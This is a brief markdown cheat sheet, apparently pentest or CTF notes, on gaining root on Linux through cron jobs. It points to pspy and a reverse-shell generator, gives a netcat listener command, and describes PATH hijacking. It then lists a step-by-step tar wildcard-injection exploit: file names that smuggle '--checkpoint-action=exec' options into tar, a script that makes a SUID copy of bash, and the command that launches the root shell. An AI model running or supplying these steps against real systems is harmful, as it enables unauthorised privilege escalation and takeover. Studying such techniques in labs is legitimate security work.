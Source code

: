 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) touch /tmp/--checkpoint=1

#### 4) touch /tmp/--checkpoint-action=exec=sh runme.sh

#### 5) /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar
